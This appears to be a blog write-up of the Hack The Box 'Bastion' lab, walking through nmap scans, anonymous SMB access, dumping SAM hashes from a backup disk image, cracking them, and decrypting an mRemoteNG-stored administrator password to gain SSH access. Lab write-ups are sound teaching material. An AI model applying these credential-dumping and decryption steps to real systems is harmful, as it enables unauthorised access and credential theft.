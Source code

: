 ```yaml
---
title: Bastion Write up
date: 2024-01-24 11:00:00 -500
categories: [writeup]
tags: [hackthebox]
# TAGS should always be lowercase
---
```


# Welcome to my Bastard's Write-up 

## Recon

### Nmap


<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ sudo nmap -sSVC -A -oA nmap/bastion 10.10.10.134</span></div>
<br> 


   
    Nmap scan report for 10.10.10.134
    Host is up (0.069s latency).
    Not shown: 996 closed tcp ports (reset)
    PORT    STATE SERVICE      VERSION
    22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
    | ssh-hostkey: 
    |   2048 3a56ae753c780ec8564dcb1c22bf458a (RSA)
    |   256 cc2e56ab1997d5bb03fb82cd63da6801 (ECDSA)
    |_  256 935f5daaca9f53e7f282e664a8a3a018 (ED25519)
    135/tcp open  msrpc        Microsoft Windows RPC
    139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
    445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
    .
    .
    .
    Host script results:
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode: 
    |   311: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2023-06-13T18:00:17
    |_  start_date: 2023-06-13T17:58:56
    | smb-os-discovery: 
    |   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
    |   Computer name: Bastion
    |   NetBIOS computer name: BASTION\x00
    |   Workgroup: WORKGROUP\x00
    |_  System time: 2023-06-13T20:00:19+02:00
    |_clock-skew: mean: -39m57s, deviation: 1h09m14s, median: 0s



><span style="color:green">All Ports Scan:</span>

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ nmap -p- -Pn -A -T4 10.10.10.134</span></div>
<br>

  
    Nmap scan report for 10.10.10.134
    Host is up (0.11s latency).
    Not shown: 65522 closed tcp ports (conn-refused)
    PORT      STATE SERVICE      VERSION
    22/tcp    open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
    | ssh-hostkey: 
    |   2048 3a56ae753c780ec8564dcb1c22bf458a (RSA)
    |   256 cc2e56ab1997d5bb03fb82cd63da6801 (ECDSA)
    |_  256 935f5daaca9f53e7f282e664a8a3a018 (ED25519)
    135/tcp   open  msrpc        Microsoft Windows RPC
    139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
    5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    49664/tcp open  msrpc        Microsoft Windows RPC
    49665/tcp open  msrpc        Microsoft Windows RPC
    49666/tcp open  msrpc        Microsoft Windows RPC
    49667/tcp open  msrpc        Microsoft Windows RPC
    49668/tcp open  msrpc        Microsoft Windows RPC
    49669/tcp open  msrpc        Microsoft Windows RPC
    49670/tcp open  msrpc        Microsoft Windows RPC
    Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

    Host script results:
    | smb2-security-mode: 
    |   311: 
    |_    Message signing enabled but not required
    |_clock-skew: mean: -39m59s, deviation: 1h09m15s, median: 0s
    | smb2-time: 
    |   date: 2023-06-13T18:02:18
    |_  start_date: 2023-06-13T17:58:56
    | smb-os-discovery: 
    |   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
    |   Computer name: Bastion
    |   NetBIOS computer name: BASTION\x00
    |   Workgroup: WORKGROUP\x00
    |_  System time: 2023-06-13T20:02:16+02:00
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)


### SMB

We will start by listing shares using smbclient:

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ smbclient -L 10.10.10.134</span></div>
<br>   

![image 1](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(1).png)

We can see that there is an interesting share named "backups". Let's access it.

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ smbclient //10.10.10.134/Backups -U "user"%" "</span></div>
<br>

![image 2](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(2).png)

Download all files using "mget *".

![image 3](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(3).png)

Seems like we have to mount it locally.

## Initial Foothold


<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ mount -t cifs //10.10.10.134/backups /mnt -o user=user,password=</span></div>
<br>

![image 4](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(4).png)

><span style="color:green; font-style:italic; font-family: Calibri, sans-serif; font-size: larger">Note : to install guestmount use the command: sudo apt install libguestfs-tools</span></div>
<br>

![image 5](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(5).png)

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ sudo guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt2/</span></div>
<br> 

![image 6](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(6).png)

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red"># cd /mnt2/Windows/System32/config</span></div>
<br>

![image 7](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(7).png)

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red"># samdump2 ./SYSTEM ./SAM</span></div>
<br>

![image 8](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(8).png)





### Crack the hash

Let's crack the hash using : [https://crackstation.net/](https://crackstation.net/)

![image 9](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(9).png)


>L4mpje:Bureaulampje

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ ssh L4mpje@10.10.10.134</span></div>
<br>

![image 10](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(10).png)

## Privilege Escalation

<div style="background-color: #1e2124; padding: 10px;">
l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG><span style="color:red">cd C:\Users\L4mpje\AppData\Roaming\mRemoteNG</span></div>
<br>


<div style="background-color: #1e2124; padding: 10px;">
l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG><span style="color:red">dir</span></div>
<br>

![image 11](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(11).png)

<div style="background-color: #1e2124; padding: 10px;">
l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG><span style="color:red">type confCons.xml</span></div>
<br> 

![image 12](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(12).png)

We found the administrator's hash

To crack it we need to use mremoteng_decrypt : https://github.com/haseebT/mRemoteNG-Decrypt


<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ ./mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==</span></div>
<br>


![image 13](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(13).png)


<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG>ssh administrator@10.10.10.134</span></div>
<br> 

![image 14](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(14).png)